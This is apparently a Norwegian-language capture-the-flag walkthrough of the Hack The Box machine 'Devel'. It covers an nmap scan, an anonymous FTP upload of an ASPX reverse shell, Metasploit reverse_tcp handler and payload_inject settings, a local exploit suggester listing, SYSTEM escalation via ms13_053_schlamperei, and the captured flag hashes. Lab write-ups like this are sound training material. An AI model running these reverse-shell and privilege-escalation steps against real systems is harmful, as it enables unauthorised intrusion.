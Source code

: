 # devel 10.10.10.5

**last opp is.aspx**

**skaff shell**

**gjør om til meterpreter \(set lport 4434\)**

**kjør ps: migrate til hvilken som helst prosess som er system. woosh**



windows maskin

`oot@kali:~# nmap -sS -P0 10.10.10.5`

`Starting Nmap 7.40 ( https://nmap.org ) at 2017-05-26 09:47 EDT`

`Nmap scan report for 10.10.10.5`

`Host is up (0.061s latency).`

`Not shown: 998 filtered ports`

`PORT   STATE SERVICE`

`21/tcp open  ftp`

`80/tcp open  http`

logget inn **ftp **med **anonymous**.   login med -i som fjerner prompts

http kjører iis7

fikk et skikkelig shell med [https://www.darknet.org.uk/2014/12/insomniashell-asp-net-reverse-shell-bind-shell/](https://www.darknet.org.uk/2014/12/insomniashell-asp-net-reverse-shell-bind-shell/)

**windows 7 6.1 build 7600 x86**

**koble et shell rett inn i metasploit og oppgradere til meterpreter**

```
* use multi/handler

* set LHOST attack-machine

* set LPORT port-as-appropraite

* set payload windows/shell/reverse\_tcp

* exploit'
```

background session med ctrl z&lt;

`use post/multi/manage/shell_to_meterpreter`

kan her kjøre kommandoer.

```
net users
```

    Administrator            babis                    Guest**
    ``

    /c whoami = iis apppool\**web**



    **

use post/multi/recon/local\_exploit\_suggester **        
**FORSØKT ALLE DISSE UTEN HELL\*\*

```
\[+\] 10.10.10.5 - exploit/windows/local/bypassuac\_eventvwr: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms10\_015\_kitrap0d: The target service is running, but could not be validated.

\[+\] 10.10.10.5 - exploit/windows/local/ms10\_092\_schelevator: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms13\_053\_schlamperei: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms13\_081\_track\_popup\_menu: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms14\_058\_track\_popup\_menu: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms15\_004\_tswbproxy: The target service is running, but could not be validated.

\[+\] 10.10.10.5 - exploit/windows/local/ms15\_051\_client\_copy\_image: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms16\_016\_webdav: The target service is running, but could not be validated.

\[+\] 10.10.10.5 - exploit/windows/local/ms16\_032\_secondary\_logon\_handle\_privesc: The target service is running, but could not be validated.

\[+\] 10.10.10.5 - exploit/windows/local/ppr\_flatten\_rec: The target appears to be vulnerable.
```

getsystem = ingenting

```
wmic qfe get
```

no work :\(

sjekke hvilke prossesser som kjører med admin privelege.

```
use post/windows/gather/enum_patches
```

msf post\(shell\_to\_meterpreter\) &gt; use post/windows/gather/enum\_patches  
msf post\(enum\_patches\) &gt; set session 2  
session =&gt; 2  
msf post\(enum\_patches\) &gt; exploit

\[-\] Post failed: NoMethodError undefined method `[]' for nil:NilClass        
[-] Call stack:        
[-]   /usr/share/metasploit-framework/modules/post/windows/gather/enum_patches.rb:72:in`run'  
\[\*\] Post module execution completed

msf post\(enum\_patches\) &gt; run

\[-\] Known bug in WMI query, try migrating to another process  
\[\*\] Post module execution completed



**forsøkte å bypasse uac**  
msf exploit\(bypassuac\) &gt; exploit

\[_\] Started reverse TCP handler on 10.0.0.8:4444  
\[_\] UAC is Enabled, checking level...  
\[+\] UAC is set to Default  
\[+\] BypassUAC can bypass this setting, continuing...  
\[-\] Exploit aborted due to failure: no-access: Not in admins group, cannot escalate with this module

**greide å få powershell**

```
use exploit/windows/local/payload_inject
set payload windows/powershell_reverse_tcp

exploit/windows/local/ms16_032_secondary_logon_handle_privesc funekr ikke fordi det bare er et ettkjerne vm. krever to kjerner
```

```
use exploit/windows/local/ms13\_053\_schlamperei
tror det var denne som ordnet det. kjørte getsystem of fikk SYSTEM
```

type root.txt.txt

**e621a0b5041708797c4fc4728bc72b4b**

type user.txt.txt

**9ecdd6a3aedf24b41562fea70f4cb3e8**

